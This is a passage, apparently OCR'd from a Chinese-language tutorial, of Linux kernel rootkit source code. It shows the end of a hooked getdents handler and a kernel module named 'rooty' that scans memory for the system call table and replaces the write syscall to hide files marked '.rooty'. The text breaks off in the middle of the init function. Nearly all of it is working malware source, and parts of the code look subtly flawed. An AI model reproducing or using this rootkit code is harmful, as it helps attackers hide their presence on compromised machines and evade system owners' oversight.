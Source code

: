 ```c
            dirp = (struct linux_dirent *) ((char *)dirp + dirp->d_reclen);
    }
    
    printk(KERN_INFO "finished hacked_getdents.\n");
    return value;
}
```

### 4.2 hook write系统调用实现文件隐藏

```c
#include <linux/module.h>
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/kobject.h>
#include <linux/unistd.h>
#include <linux/syscalls.h>
#include <linux/string.h>
#include <linux/slab.h>

MODULE_LICENSE("GPL");

int rooty_init(void);
void rooty_exit(void);
module_init(rooty_init);
module_exit(rooty_exit);


#define START_CHECK 0xffffffff81000000
#define END_CHECK 0xffffffffa2000000
typedef unsigned long psize;

asmlinkage ssize_t (*o_write)(int fd, const char __user *buff, ssize_t count);

psize *sys_call_table;
psize **find(void) {
    psize **sctable;
    psize i = START_CHECK;
    while (i < END_CHECK) {
        sctable = (psize **) i;
        if (sctable[__NR_close] == (psize *) sys_close) {
            return &sctable[0];
        }
        i += sizeof(void *);
    }
    return NULL;
}

asmlinkage ssize_t rooty_write(int fd, const char __user *buff, ssize_t count) {
    int r;
    char *proc_protect = ".rooty";
    char *kbuff = (char *) kmalloc(256,GFP_KERNEL);
    copy_from_user(kbuff,buff,255);
    if (strstr(kbuff,proc_protect)) {
        kfree(kbuff);
        return EEXIST;
    }
    r = (*o_write)(fd,buff,count);
    kfree(kbuff);
    return r;
}

int rooty_init(void) {
```